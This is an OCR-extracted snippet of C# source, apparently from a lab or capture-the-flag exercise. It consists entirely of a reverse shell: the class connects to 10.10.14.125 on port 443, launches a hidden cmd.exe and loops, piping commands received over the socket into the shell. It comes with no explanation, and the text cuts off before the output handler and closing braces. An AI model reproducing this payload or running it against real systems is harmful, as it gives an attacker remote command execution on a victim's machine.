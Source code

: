 ```C#


namespace Rev                                                                  
{                                                                              
        public class Run                                                       
        {                                                                      
                static StreamWriter streamWriter;                                                                                                             

                public Run()                                                   
                {                                                              
                        using(TcpClient client = new TcpClient("10.10.14.125", 443))                                                                          
                        {                                                      
                                using(Stream stream = client.GetStream())                                                                                     
                                {                                              
                                        using(StreamReader rdr = new StreamReader(stream))                                                                    
                                        {                                      
                                                streamWriter = new StreamWriter(stream);                                                                      

                                                StringBuilder strInput = new StringBuilder();                                                                 

                                                Process p = new Process();                                                                                    
                                                p.StartInfo.FileName = "cmd.exe";                                                                             
                                                p.StartInfo.CreateNoWindow = true;                                                                            
                                                p.StartInfo.UseShellExecute = false;                                                                          
                                                p.StartInfo.RedirectStandardOutput = true;                                                                    
                                                p.StartInfo.RedirectStandardInput = true;                                                                     
                                                p.StartInfo.RedirectStandardError = true;                                                                     
                                                p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);                                   
                                                p.Start();                                                                                                    
                                                p.BeginOutputReadLine();                                                                                      

                                                while(true)                                                                                                   
                                                {                                                                                                             
                                                        strInput.Append(rdr.ReadLine());                                                                      
                                                        //strInput.Append("\n");                                                                              
                                                        p.StandardInput.WriteLine(strInput);                                                                  
                                                        strInput.Remove(0, strInput.Length);                                                                  
                                                }                                                                                                             
                                        }                                      
                                }                                              
```